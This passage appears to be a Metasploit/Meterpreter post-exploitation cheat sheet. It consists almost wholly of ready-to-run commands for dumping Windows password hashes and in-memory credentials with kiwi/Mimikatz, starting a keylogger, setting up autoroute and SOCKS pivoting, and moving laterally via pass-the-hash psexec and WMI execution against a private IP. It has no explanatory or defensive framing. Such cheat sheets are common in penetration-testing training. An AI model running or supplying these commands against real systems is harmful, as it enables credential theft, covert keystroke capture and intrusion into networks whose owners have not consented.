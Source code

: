 ### Credential Harvesting

```bash
# Dump hashes from SAM
hashdump

# More comprehensive hash dumping
run post/windows/gather/smart_hashdump

# Use Mimikatz for in-memory credentials
load kiwi
creds_all

# Dump stored credentials
run post/windows/gather/credentials/credential_collector
```

### Keystroke Capture

```bash
# Start keylogger
keyscan_start

# Dump captured keystrokes
keyscan_dump

# Stop keylogger
keyscan_stop
```

### Network Enumeration and Pivoting

```bash
# Show network interfaces
ipconfig
route

# Port scanning
run post/multi/gather/ping_sweep RHOSTS=192.168.1.0/24

# Add route through compromised host
run post/multi/manage/autoroute SUBNET=10.10.10.0 NETMASK=255.255.255.0

# Set up a SOCKS proxy
run auxiliary/server/socks_proxy SRVPORT=9050 VERSION=4a
```

### Lateral Movement

```bash
# Pass the hash
run post/windows/gather/smart_hashdump
use exploit/windows/smb/psexec
set SMBPass aad3b435b51404eeaad3b435b51404ee:5858d47a41e40b40f294b3100bea611f

# WMI execution
use exploit/windows/local/wmi
set SESSION 1
set RHOSTS 192.168.1.20
exploit
```
